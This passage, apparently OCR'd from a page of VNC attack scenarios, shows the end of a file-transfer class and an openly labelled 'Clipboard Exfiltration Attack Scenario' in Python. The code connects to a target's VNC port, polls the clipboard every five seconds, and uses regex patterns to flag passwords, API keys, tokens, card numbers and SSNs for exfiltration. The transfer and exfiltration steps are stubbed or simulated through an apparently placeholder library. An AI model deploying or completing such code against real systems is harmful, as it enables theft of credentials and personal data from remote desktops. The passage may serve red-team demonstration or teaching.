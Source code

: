 ```python
        for file_path in target_files:
            if os.path.exists(file_path):
                self.transfer_file(file_path)
                time.sleep(1)
                
        self.vnc_client.disconnect()
        
    def transfer_file(self, file_path):
        """Transfer a single file through VNC"""
        logging.info(f"Transferring file: {file_path}")
        
        # Simulate file transfer through VNC
        file_content = self.vnc_client.read_file(file_path)
        self.vnc_client.send_file(file_content)
        
        logging.info(f"File transferred successfully: {file_path}")
```

### Scenario 2: Clipboard Exfiltration
```python
#!/usr/bin/env python3
"""
Clipboard Exfiltration Attack Scenario
Demonstrates clipboard data exfiltration through VNC
"""

class ClipboardExfiltration:
    def __init__(self, target_host, target_port=5900):
        self.target_host = target_host
        self.target_port = target_port
        self.vnc_client = vnc_lib.VNCClient()
        
    def execute_attack(self):
        """Execute clipboard exfiltration attack"""
        logging.info("Starting clipboard exfiltration attack")
        
        self.vnc_client.connect(self.target_host, self.target_port)
        
        # Monitor clipboard for sensitive data
        sensitive_patterns = [
            r"password\s*[:=]\s*\w+",
            r"api[_-]?key\s*[:=]\s*\w+",
            r"token\s*[:=]\s*\w+",
            r"credit[_-]?card\s*[:=]\s*\d+",
            r"ssn\s*[:=]\s*\d{3}-\d{2}-\d{4}"
        ]
        
        # Continuous clipboard monitoring
        for _ in range(100):  # Monitor for 100 iterations
            clipboard_data = self.vnc_client.get_clipboard()
            
            for pattern in sensitive_patterns:
                if re.search(pattern, clipboard_data, re.IGNORECASE):
                    logging.warning(f"Sensitive data found in clipboard: {clipboard_data}")
                    self.exfiltrate_data(clipboard_data)
                    
            time.sleep(5)  # Check every 5 seconds
            
        self.vnc_client.disconnect()
        
    def exfiltrate_data(self, data):
        """Exfiltrate sensitive data"""
        logging.info(f"Exfiltrating data: {data}")
```